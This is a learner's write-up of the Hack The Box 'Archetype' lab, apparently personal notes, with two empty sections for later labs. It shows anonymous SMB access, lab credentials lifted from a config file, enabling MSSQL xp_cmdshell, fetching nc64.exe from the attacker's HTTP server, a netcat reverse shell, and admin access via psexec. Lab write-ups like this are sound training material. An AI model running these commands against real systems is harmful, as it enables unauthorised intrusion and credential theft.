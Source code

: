 [[HTB-LABS]] [[Week4]]

# **Archetype**
this what i learn:
1. you can enter `smb` server by `smbclient` , and you can use those flages: `-N` mean **no password** . and can use `-L` to **List service or directory**
2. after we do this , there's some dir show and one of those is `backups` and to enter it
   we can use this command `smbclient -N \\\\{IP}\\backups` by this we will get shell and can use `dir` command to list what in there , then use `get` to download
3. when use `dir` you will find find file its name is `prod.dtsConfig`  and use get to download this file , then if you cat this file you will see code , in this code you will see username `ARCHETYPE\sql_svc` password `M3g4c0rp123` . this is the code 
```
   <DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>

```
4. we will use Impacket ```
```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

5. we will use this script `mssqlclient.py` with this flaags `-windows-auth` :this flag is specified to use Windows Authentication .
   `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth` by then the password and by that you'r connect to sql server and type `help` for help 
   Here's a great article that can guide us further to our exploration journey with MSSQL Server:
   https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

6. and from this cheat-sheet i will use this `SELECT is_srvrolemember('sysadmin');` continue using the cheat-sheet to see , from the command above the result is 1 and that mean it `true` which mean i'm admin or `sysadmin` .
7. after you know you'r admin use this script to enable shell
 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
8.  now we will use this file [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) , but first we need to run Power-Shell because it better than normal command prompt , to do this we will use this command `xp_cmdshell "powershell -c command"`  replace `commnad` with any command you want to perform , i use `pwd` to know where we are , and this is the output `C:\Windows\system32` but we cannot write here , so after some enumeration i know that download will be great 
9. now we need to upload this  [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) file , and for that we will use this 
   command `sudo python3 -m http.server 80` in our terminal , now in the server terminal do this command  `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.58:80/nc64.exe -outfile nc64.exe"` 
   by that we download this file to the server  and to make this file work we will use this command 
   `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.58 443"` by this we make the file work and give it our ip and the port 
   and you should run this on your terminal `nc -lnvp 443` 
10. boom!!! we get reverse shell to the main server, now we went to Desktop to find the user.txt flag , then go to power-shell history 
    `cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
    there we will find this file `ConsoleHost_history.txt` and that have the history of this powershell then perform this command `type ConsoleHost_history.txt` and you will get the user of the admin and the password 

11. after that you can use `psexec.py` from impacket to get in as admin and we use this `ali@Ali:~/impacket/impacket/examples$ sudo python3 psexec.py administrator@10.129.95.187` from that now we'r admin then just go to the admin's Desktop and you will find the root.txt, and done
12. we try to use winPEAS but idont know anything about it so we let it for letter ctf


# **Oopsie**
this what i learn:


# **Vaccine**
this what i learn:

1. 